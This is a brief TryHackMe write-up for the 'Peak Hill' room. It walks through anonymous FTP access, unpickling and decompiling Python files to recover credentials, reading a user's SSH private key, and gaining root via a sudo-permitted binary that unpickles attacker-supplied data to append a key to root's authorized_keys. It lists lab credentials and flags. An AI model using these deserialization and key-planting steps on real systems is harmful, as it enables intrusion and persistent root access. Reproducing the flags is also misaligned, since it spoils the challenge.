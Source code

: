 ```yaml
---
title: Peak Hill
description: 'Decompiling a Python script (pyc) and exploiting a Python pickle script'
pubDate: 2020-06-12
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/1bd570868d5c18425b3d1876460c06ba.jpeg'
---
```


## FTP anon login
    - .creds (user_pass.py)
        - Binary to ascii
        - unpickle
        - sort ssh_user<number> and ssh_pass<number>
            gherkin
            p1ckl3s_@11_@r0und_th3_w0rld

## USER
    - cmd_service.pyc <- from home dir
    - decompiled: uncompyle6 cmd_service.pyc > cmd_service.py
        - interestings parts:
            username = long_to_bytes(1684630636)
            password = long_to_bytes(2457564920124666544827225107428488864802762356)
    - creds: cmd_service_creds.py
        dill
        n3v3r_@_d1ll_m0m3nt

    - telnet 10.10.12.136 7321
        - cat /home/dill/user.txt
        f1e13335c47306e193212c98fc07b6a0

## DILL USER
    - telnet 10.10.12.136 7321
        - cat /home/dill/.ssh/id_rsa

## ROOT
    - ssh -i dill_id_rsa dill@10.10.12.136
    - sudo -l: (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
    - pickle + base64 -> create code execution
    - copy pickle rsa key to /home/dill as pickle.txt, append it to /root/.ssh/authorized_keys
    - python3 ../grow.py "cat /home/dill/pickle.txt >> /root/.ssh/authorized_keys"
    - ssh -i pickle root@10.10.12.136

## ROOT.TXT
    - root.txt has invisible character appended to it:
        - cat /root/* <- hint is in the /home/dill/.bash_history
        e88f0a01135c05cf0912cf4bc335ee28

    - OR with dill user:
        - python3 grow.py "cat /root/*"
        - sudo /opt/peak_hill_farm/peak_hill_farm <- paste base64 output as 'to grow:'

